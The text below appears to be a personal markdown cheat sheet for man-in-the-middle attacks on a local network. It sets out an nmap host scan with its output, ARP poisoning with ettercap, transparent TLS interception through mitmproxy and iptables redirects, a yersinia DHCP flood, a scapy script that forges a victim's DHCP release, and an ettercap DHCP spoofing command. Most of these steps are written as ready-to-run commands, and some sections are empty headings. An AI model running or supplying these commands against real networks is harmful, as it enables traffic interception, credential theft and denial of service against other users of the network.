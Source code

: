 
# MITM 
In case of a wired network, we should use a Hub to connect on network. 
This attack is based on a faster answer to DHCPRequest than DHCP server from targeted network. If the server is answering before us a DOS on it could resolve the problem.
More informations here: [https://www.whitewinterwolf.com/posts/2017/10/30/dhcp-exploitation-guide/]()


## Host scan
Find host on network: 
	
	nmap -sn 192.168.1.0/24
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 15:01 CET
	Nmap scan report for box (192.168.1.1)
	Host is up (0.018s latency).
	MAC Address: E4:5D:51:CA:6B:18 (SFR)
	Nmap scan report for MBP-de-Florent (192.168.1.38)
	Host is up (0.13s latency).
	MAC Address: F4:0F:24:1A:3F:84 (Apple)
	Nmap scan report for HPA58000 (192.168.1.40)
	Host is up (0.26s latency).
	MAC Address: 30:E1:71:A5:80:00 (Hewlett Packard)
	Nmap scan report for SoundTouch-20 (192.168.1.56)
	Host is up (0.25s latency).
	MAC Address: 88:4A:EA:7E:FA:49 (Texas Instruments)
	Nmap scan report for 192.168.1.78
	Host is up (0.23s latency).
	MAC Address: B0:C0:90:DA:2C:52 (Chicony Electronics)
	Nmap scan report for FNN-LAPTOP (192.168.1.90)
	Host is up (0.054s latency).
	MAC Address: E4:70:B8:D7:48:DF (Intel Corporate)
	Nmap scan report for kali (192.168.1.25)
	Host is up.
	Nmap done: 256 IP addresses (7 hosts up) scanned in 3.65 seconds

## ARP Poisoning

### Ettercap

- Activate ip_forward
	
	```
sysctl -w net.ipv4.ip_forward=1
	```
	
- Launch ettercap (not from root)

  ```
  ettercap -G
  ```

- define Target from menu Target > Select Target:

  ```
  HOST1 = Cible
  HOST2 = Routeur (ie:192.168.1.1)
  ```

- launch arppoisoning by clicking Start/Stop ARP Poisoning

- Follow connections 

### Bettercap 





## DNS Poisoning









------

## Exploitation


### HSTS - HTTP to HTTPS exploit with sslstrip
https://jlajara.gitlab.io/posts/2019/11/11/HSTS.html



### Mitmproxy (sslsplit equivalent)
This solution will not be discret unless you setup the mitm.it ssl certificate on target device. 
Once certificate is installed the target device connection will appear as secure.

- Activate ip forward
	sysctl -w net.ipv4.ip_forward=1
- launch mitmproxy
	mitmproxy -m transparent -k
- Mitm proxy use port 8080 to receive request. Though, you should redirect 443 and 80.
	iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
	iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8080
- Navigate to mitm.it with the target device


### 



## DOS (Denial of Service)
- Flood DHCP server to make sure, it will note answer:
	yersinia dhcp -interface wlan0 -attack 1	

	Dynamic Host Configuration Protocol (DHCP):
       -source hw_addr
              Source MAC address
       -dest hw_addr
              Destination MAC address
       -interface iface
              Set network interface to use
       -attack attack
              Attack to launch

	Attacks Implemented in DHCP:
	0: NONDOS attack sending RAW packet
	1: DOS attack sending DISCOVER packet
	2: NONDOS attack creating DHCP rogue server
	3: DOS attack sending RELEASE packet



----------------------------------------------------------------------------------


## Force DHCP Release

- Force release with scapy:
	Client : 192.168.1.97 08:C5:E1:89:31:BC
	Server : 192.168.1.1 E4:5D:51:CA:6B:18

sendp(Ether(src="08:C5:E1:89:31:BC",dst="E4:5D:51:CA:6B:18") /
IP(src="192.168.1.97",dst="192.168.1.1") /
UDP(sport=68,dport=67) /
BOOTP(chaddr="\x08\xC5\xE1\x89\x31\xBC",ciaddr="192.168.1.97",xid=random.randint(0, 0xFFFFFFFF)) /
DHCP(options=[("message-type","release"),("server_id", "192.168.1.1"),"end"]), iface="wlan0") 


- Sniff remote connection :
	ettercap -Tzq -M dhcp:/255.255.255.0/192.168.1.1 -i wlan0





